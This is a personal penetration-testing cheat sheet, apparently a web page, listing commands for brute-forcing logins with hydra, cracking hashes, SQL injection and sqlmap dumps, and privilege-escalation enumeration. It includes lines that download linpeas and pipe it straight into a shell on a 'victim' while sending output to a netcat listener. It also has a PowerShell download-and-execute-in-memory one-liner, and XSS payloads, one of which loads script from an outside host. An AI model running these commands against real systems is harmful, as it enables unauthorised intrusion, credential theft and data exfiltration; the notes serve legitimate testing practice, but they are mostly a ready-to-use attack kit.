 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

email: ryushe@bugcrowdninja-demon.com

# General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

# Tmux
re-attach session:  
`tmux a`  
Attach file session:  
`tmux -S <name>`   
Rename session:  
`prefix + $`    
Pane -> Window:
`prefix + !`  
Move pane left/right:  
`prefix + { or }`
Save / restore:  
`prefix + s / r`

# Brute-Force
ffuf  
cme - SMB brute force tool  

John the ripper - cracking tool
* `john  --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt jonah.txt`

hydra:  
```
hydra -l usr -P pass.txt ssh://www.example.com  
hydra -l jennifer -P /usr/share/wordlists/rockyou.txt builder -s 8080 http-post-form "/login:j_username=jennifer&j_password=^PASS^&from=&Submit=:Invalid username or password"
```

# Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

# Wordlists
/usr/share/wordlists/  
* /seclists

# Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


# Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

filter to host machine:  
`nc -lvnp 9002 | tee linpeas.out` # host  
`curl $ip:8000/linpeas.sh | sh | nc $ip 9002` # victim  


[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## LINPEAS VIEWING
`less -r <outputfile>` - color codes everythign properly

# Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


# Refrance links 
tbd

# SQL
`' or 1=1 -- -`  

## SQL Map
`sqlmap -r request.txt --dbms=<db> --dump`
- dumps off request to site, attempts to do a sqli

# SSH
`chmod 600 <key>`
`ssh -L <port>:website:80 <user>@myserver`  
- port forwarding, allowing access to website from myserver  
`ssh -R <port>:website:80 <user>@myserver`  
- reverse forwarding, allowing others to view your traffic


# Sockets
`ss -tulpn` (tcp, udp, listenting only, process using socket, dont respolve service names)  
 

# Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

1. `curl $ip:1111/linpeas.sh`
1. `find / -perm -u=s -type f 2>/dev/null` - suid bit finder


# One liners

Sqlmap from wayback:   
`waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt && cat urls.txt | xargs -I{} sqlmap --technique=T --batch -u "{}"`  

XSS from wayback:  
`echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | urldedupe -s | grep -IE "[?].*[&]?" | grep "=" | unew -p | pvreplace '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' | xsschecker -match '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' -vuln`  

XSS in x-forward header:  
`findomain -t http://TARGET.COM | gau | bxss -payload '"><script src=https://chirag.bxss.in></script>' -header "X-Forwarded-For"`  


# My site test urls:
xss:  
`https://mochungusxd.web.app/payloads/svgxss.html`   

Open-Redirect:  
`https://mochungusxd.web.app/`